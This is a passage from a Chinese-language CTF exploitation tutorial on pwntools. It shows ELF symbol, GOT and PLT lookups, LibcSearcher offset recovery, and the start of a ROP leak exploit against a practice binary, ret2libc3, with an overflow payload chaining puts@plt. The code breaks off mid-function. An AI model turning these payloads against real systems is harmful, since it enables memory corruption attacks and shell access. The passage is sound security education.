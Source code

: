 > 1. ELF模块
> ELF模块用于获取ELF文件的信息，首先使用ELF()获取这个文件的句柄，然后使用这个句柄调用函数，和IO模块很相似。
> 下面演示了：获取基地址、获取函数地址（基于符号）、获取函数got地址、获取函数plt地址
> ```
> >>> e = ELF('/bin/cat')
> >>> print hex(e.address)  # 文件装载的基地址
> 0x400000
> >>> print hex(e.symbols['write']) # 函数地址
> 0x401680
> >>> print hex(e.got['write']) # GOT表的地址
> 0x60b070
> >>> print hex(e.plt['write']) # PLT的地址
> 0x401680
> ```


如果无法直接知道对方所使用的操作系统及libc的版本而苦恼，常规方法就是挨个把常见的Libc.so从系统里拿出来，与泄露的地址对比一下最后12位，从而获取版本
github上面有个库可以参考：
https://github.com/lieanu/LibcSearcher
```
from LibcSearcher import *

#第二个参数，为已泄露的实际地址,或最后12位(比如：d90)，int类型
obj = LibcSearcher("fgets", 0X7ff39014bd90)

obj.dump("system")        #system 偏移
obj.dump("str_bin_sh")    #/bin/sh 偏移
obj.dump("__libc_start_main_ret")   
```

---------------

# 0x05 Memory Leak & DynELF - 在不获取目标libc.so的情况下进行ROP攻击
参考的是蒸米的exp，但是用的不是他的示例程序，而是ret2libc3。
他的方法是通过write@plt泄露内存，然后寻找system函数。然后使用read@plt将'/bin/sh'写入.bss段，然后通过pppr移交控制权给system()
ret2libc3的不同之处在于，没有write和read，不过没有关系，使用puts@plt和gets@plt也可以实现嘛，但是难就难在，虽然puts@plt只有一个参数，但是它有着遇到'\x00'就截断并在后面填充'\n'的“好”习惯，所以泄露出来的数据还需要处理。可以参考下面这两篇：
https://www.anquanke.com/post/id/85129
http://uprprc.club/2016/09/07/pwntools-dynelf.html

```python
from pwn import *

p = process('./ret2libc3')
elf = ELF('./ret2libc3')

plt_puts = elf.symbols['puts']
main = elf.symbols['main']
plt_gets = elf.symbols['gets']
start_addr = elf.symbols['_start']

def leak(address):
    global i
    count = 0
    content = ''
    x = p.recvuntil('!?')
    payload1 = '\x90'*112 + p32(plt_puts) + p32(main) + p32(address)
    p.sendline(payload1)
    up = ""
    while True:
          c = p.recv(1)
          count += 1
          if up == '\n' and c == 'N':
                 print((content).encode('hex'))
                 content =content[:-1]+'\x00'
```